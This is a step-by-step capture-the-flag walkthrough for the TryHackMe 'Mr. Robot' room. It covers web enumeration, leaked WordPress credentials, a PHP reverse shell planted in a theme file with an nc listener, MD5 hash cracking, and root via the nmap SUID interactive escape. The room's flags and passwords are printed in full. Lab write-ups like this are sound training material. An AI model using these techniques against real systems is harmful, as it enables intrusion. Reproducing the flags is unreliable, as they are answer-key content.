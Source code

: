 # Mr. Robot

## [Mr. Robot on TryHackMe](https://tryhackme.com/room/mrrobot)

## Overview

* **Difficulty:** Medium
* **Category:** Web Exploitation / Privilege Escalation / CTF
* **Skills Practiced:** Web enumeration, credential discovery, WordPress exploitation, reverse shell, hash cracking, SUID privilege escalation

## Tools & Techniques

* `curl` – for retrieving hidden files
* `gobuster` – for directory brute-forcing
* `CyberChef` – for Base64 decoding
* WordPress admin panel – for uploading reverse shell
* `nc` (netcat) – for reverse shell listener
* `john` – for cracking password hashes
* `find`, SUID file enumeration – for privilege escalation
* GTFOBins (`nmap`) – to escalate privileges to root

## Walkthrough (Step-by-Step)

### 1. Deployment & Setup

* Connect to TryHackMe with OpenVPN or use the AttackBox.
* Deploy the **Mr. Robot** machine.

### 2. Initial Enumeration

1. **Check robots.txt**

	```bash
	curl http://<target-ip>/robots.txt
	```

	**Findings:**

	```
	fsocity.dic
	key-1-of-3.txt
	```

2. **Retrieve Key 1**

	```bash
	curl http://<target-ip>/key-1-of-3.txt
	```

	**Output:**

	```
	073403c8a58a1f80d943455fb30724b9
	```

	First key obtained.

3. **Extract Wordlist**

	```bash
	curl http://<target-ip>/fsocity.dic > dictionary.txt
	```

4. **Directory Enumeration (GoBuster)**

	```bash
	gobuster dir -u http://<target-ip>/ -w dictionary.txt
	```

	**Discovered:**

	```
	/license
	```

### 3. Credentials Discovery

* Visit `/license` → hidden Base64 string:

	```
	ZWxsaW90OkVSMjgtMDY1Mgo=
	```

* Decode with CyberChef →

	```
	elliot:ER28-0652
	```

	Found valid WordPress credentials.

### 4. Getting a Shell

1. **Login to WordPress**

	* URL: `http://<target-ip>/wp-login.php`
	* User: `elliot`
	* Pass: `ER28-0652`

2. **Exploit Theme Editor**

	* Replace contents of `404.php` with a [**PHP reverse shell**](reverse_shell.php).
	* Configure attacker IP and port.

3. **Start Listener**

	```bash
	nc -lvnp <port>
	```

4. **Trigger Reverse Shell**

	Visit `http://<target-ip>/wp-content/themes/<theme>/404.php`.

	**Result:**
	Shell access as `daemon`.

### 5. User Escalation (Robot)

1. **Enumerate Robot’s Files**

	```bash
	ls /home/robot
	```

	**Findings:**

	```
	key-2-of-3.txt  (permission denied)
	password.raw-md5
	```

2. **Retrieve Hash**

	```bash
	cat /home/robot/password.raw-md5
	```

	**Output:**

	```
	robot:c3fcd3d76192e4007dfb496cca67e13b
	```

3. **Crack Hash (John)**

	```bash
	john --format=raw-md5 -wordlist=/usr/share/wordlists/rockyou.txt hash.txt
	```

	**Result:**

	```
	robot:abcdefghijklmnopqrstuvwxyz
	```

4. **Spawn a proper TTY**

	```bash
	python -c 'import pty; pty.spawn("/bin/sh")'
	```

5. **Switch to Robot User**

	```bash
	su robot
	```

	Password: `abcdefghijklmnopqrstuvwxyz`

6. **Read Key 2**

	```bash
	cat /home/robot/key-2-of-3.txt
	```

	**Output:**

	```
	822c73956184f694993bede3eb39f959
	```

	Second key obtained.

### 6. Privilege Escalation (Root)

1. **Find SUID binaries**

	```bash
	find / -perm -4000 2>/dev/null
	```

	**Findings:**

	```
	/usr/bin/nmap
	```

2. **Exploit Nmap (GTFOBins)**

	```bash
	nmap --interactive
	nmap> !sh
	```

	**Result:** Root shell access.

3. **Read Key 3**

	```bash
	cd /root
	cat key-3-of-3.txt
	```

	**Output:**

	```
	04787ddef27c3dee1ee161b21670b4e4
	```

	Final key obtained.
